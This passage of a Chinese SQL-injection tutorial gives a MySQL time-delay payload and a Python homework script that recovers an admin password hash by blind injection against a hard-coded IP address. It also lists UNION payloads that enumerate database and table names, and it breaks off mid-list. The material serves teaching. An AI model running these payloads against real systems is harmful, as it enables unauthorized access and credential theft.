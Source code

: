     * MySQL：

    ```
    BENCHMARK(100000, MD5(1)) or sleep(5)
    ```
5. 课后习题Python爆破代码：

```python
import requests
from random import sample

md5str = '0123456789abcdefghijklmnopqrstuvwxyz}'
# 最后一个字符表示一个比z大的ascii码字符

url = 'http://202.112.51.184:8001/'
payload = {'username': 'admin', 'password':'test'} # 声明payload为一个字典

crackres = ['unsolve']*33
crackres[32] = 'end' # 标志crack结果list的末尾
crackpos = 0 # 从0开始爆破

session = requests.Session()
defaultlen = len(session.post(url, data=payload).content)

while crackres[crackpos] != 'end':
    for index in range(len(md5str)):
        thispassword = ''.join(crackres[0:crackpos]) + md5str[index+1]
        payload['username'] = "admin' and password > '" + thispassword + "'#"
        response = session.post(url, data=payload)
        if len(response.content) != defaultlen:
            crackres[crackpos] = md5str[index]
            break
    crackpos = crackpos + 1

print('Password md5: ',''.join(crackres[0:32]))
```

### SQL注入的利用代码

1.  猜测MySQL的表名和字段名：MySQL的Information_schema数据库存储了整个数据库的结构信息，存放在Information_schema.tables、Information_schema.columns表中。

    * 爆数据库 payload：

    ```
    union select 1,2,database()%23
    ```

    * 爆表名 payload：

    ```
    union select 1, table_name, 3 from information_schema.tables where table_schema='test' limit 0,1%23
    ```

    * 爆列名 payload：
